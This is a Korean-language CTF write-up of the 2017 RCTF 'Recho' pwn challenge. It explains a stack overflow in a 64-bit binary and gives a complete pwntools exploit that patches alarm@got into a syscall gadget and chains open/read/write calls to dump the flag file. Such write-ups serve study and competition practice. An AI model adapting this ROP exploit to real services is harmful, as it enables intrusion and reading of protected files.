 ```yaml
---
title: "2017 RCTF Recho"
date: 2020-1-3
tags: [RCTF]
categories: [RCTF]
---
```


64비트 바이너리가 주어진다.

```
Recho: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=6696795a3d110750d6229d85238cad1a67892298, not stripped
```

메인에서는 원하는만큼 크기를 정하고 그 크기만큼 입력받을 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char nptr; // [rsp+0h] [rbp-40h]
  char buf[40]; // [rsp+10h] [rbp-30h]
  int v6; // [rsp+38h] [rbp-8h]
  int v7; // [rsp+3Ch] [rbp-4h]

  Init();
  write(1, "Welcome to Recho server!\n", 0x19uLL);
  while ( read(0, &nptr, 0x10uLL) > 0 )
  {
    v7 = atoi(&nptr);
    if ( v7 <= 15 )
      v7 = 16;
    v6 = read(0, buf, v7);
    buf[v6] = 0;
    printf("%s", buf);
  }
  return 0;
}
```

flag라는 파일을 읽어오는 문제다. 근데 .data 영역에 flag라는 문자열이 존재했다.

flag라는 파일을 읽기 위한 함수가 딱히 존재하지 않았다. 그냥 syscall을 이용해서 orw해주면 되는 문제다.

근데 int 0x80이 바이너리 내에 존재하지 않는다. 나 같은 경우에는 alarm함수의 syscall을 이용했다.

![](https://user-images.githubusercontent.com/32904385/71731844-12db9880-2e89-11ea-83d5-b54405616f5b.png)

alarm+5 위치에 syscall이 존재했다. `add byte ptr [rdi], al ; ret` 가젯을 이용해서 rdi에 alarm@got를 넣어주고 al 값에 5를 넣어주고 alarm을 호출하면 syscall이 호출될 것이다. 이를 이용해서 orw를 해주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./Recho')
p = process('./Recho')
prdi = 0x00000000004008a3 # pop rdi ; ret
prax = 0x00000000004006fc # pop rax ; ret
add_rdi_al = 0x000000000040070d # add byte ptr [rdi], al ; ret
prsi_r15 = 0x00000000004008a1 # pop rsi ; pop r15 ; ret
prdx = 0x00000000004006fe # pop rdx ; ret
flag = 0x0000000000601058
syscall = e.plt['alarm']

# alarm+5 syscall
payload = 'A'*48
payload += 'realsung'
payload += p64(prdi) + p64(e.got['alarm'])
payload += p64(prax) + p64(0x5) + p64(add_rdi_al)

# sys_open(flag,0,0)
payload += p64(prdi) + p64(flag)
payload += p64(prsi_r15) + p64(0) + p64(0)
payload += p64(prdx) + p64(0)
payload += p64(prax) + p64(0x2) + p64(syscall)

# sys_read(3,bss,100)
payload += p64(prdi) + p64(3)
payload += p64(prsi_r15) + p64(e.bss()) + p64(0)
payload += p64(prdx) + p64(100)
payload += p64(prax) + p64(0) + p64(syscall)

# sys_write(1,bss,100)
payload += p64(prdi) + p64(1)
payload += p64(prsi_r15) + p64(e.bss()) + p64(0)
payload += p64(prdx) + p64(100)
payload += p64(prax) + p64(1) + p64(syscall)

p.sendlineafter('server!\n',str(1000))
p.send(payload)

p.shutdown()
p.interactive()
```

